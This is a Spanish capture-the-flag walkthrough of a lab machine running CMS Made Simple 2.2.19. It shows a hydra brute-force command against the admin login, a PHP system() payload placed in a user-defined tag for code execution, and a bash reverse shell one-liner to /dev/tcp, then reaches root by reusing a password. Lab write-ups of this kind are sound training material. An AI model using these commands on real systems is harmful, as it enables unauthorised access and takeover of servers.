 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
 
![image](https://github.com/user-attachments/assets/4e554fc6-666b-408a-8609-1b41c78ea9a7)

entramos:
> http://172.17.0.2/cmsms/
> 
![image](https://github.com/user-attachments/assets/e690e84e-f33d-4b2a-9c3c-53e1b49b5e6c)

buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:

![image](https://github.com/user-attachments/assets/77cc8607-d8e3-4ae9-b77f-5e8c4a8833a5)

Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![image](https://github.com/user-attachments/assets/6b2308bf-3725-4455-b601-cbfa0091862f)

que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![image](https://github.com/user-attachments/assets/7d840e91-62f4-4ccd-ae4e-0d7931073828)

Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![image](https://github.com/user-attachments/assets/6d2f3c8e-5ace-4a65-a55d-efcfe4078650)


y nos da la contraseña "chocolate" para admin
probamos en el panel de login

![image](https://github.com/user-attachments/assets/386e9cb0-5a71-4b1d-812d-dc6a0972ad2f)

ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![image](https://github.com/user-attachments/assets/002a7c04-f680-4f37-b1f4-3b5d3a345efe)


en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:
![[prueba 2.png]]

probamos si la vulnerabilidad que encontramos esta funcionando:
![[prueba 3.png]]
nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![[reverse .png]]

entonces la lanzamos con el terminal en escucha y entramos.
![[conexion .png]]
dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 



